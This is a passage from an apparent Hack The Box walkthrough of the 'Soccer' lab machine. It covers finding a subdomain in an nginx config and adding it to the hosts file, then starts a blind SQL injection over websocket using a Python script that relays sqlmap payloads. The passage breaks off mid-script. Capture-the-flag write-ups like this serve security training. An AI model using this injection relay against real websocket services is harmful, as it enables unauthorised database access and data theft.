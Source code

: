 After a bit of looking around we find a new subdomain in a file /etc/nginx/sites-enabled/soc-player.htb

```text-plain
cat soc-player.htb
server {
        listen 80;
        listen [::]:80;

        server_name soc-player.soccer.htb;

        root /root/app/views;

        location / {
                proxy_pass http://localhost:3000;
                proxy_http_version 1.1;
                proxy_set_header Upgrade $http_upgrade;
                proxy_set_header Connection 'upgrade';
                proxy_set_header Host $host;
                proxy_cache_bypass $http_upgrade;
        }

}
```

We'll add this domain to our hosts file and navigate to the webpage.

```text-plain
echo ‘10.10.11.194 soc-player.soccer.htb’ | sudo tee -a /etc/hosts
```

At the webpage we see a banner offering a free ticket when you sign up or login. Maybe we can take advantage of this functionality. 

![image](https://github.com/Arcsin00/HTB-Walkthroughs/assets/110564012/82198f29-2254-4108-871a-8bd9b7a2f3ae)


After signing up with fake credentials and logging in we are presented with a form for our free ticket. Use CTRL-U to view the source code and take a look at the script behind this functionality. 

![image](https://github.com/Arcsin00/HTB-Walkthroughs/assets/110564012/2fedf805-9573-485e-a54d-eb60e4094260)


SQL Injection
-------------

In order to perform a SQL injection attack we will need a tool that will pass sqlmap traffic to the websocket found in the script. There is a blog post about a tool that will automate this task here [https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

The ws-server and data fields need to be changed to the values in the free ticket script we found.

```text-plain
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection
ws_server = "ws://soc-player.soccer.htb:9091"
def send_ws(payload):
    ws = create_connection(ws_server)
    # If the server returns a response on connect, use below line    
    #resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
    
    # For our case, format the payload in JSON
    message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
    data = '{"id":"%s"}' % message
```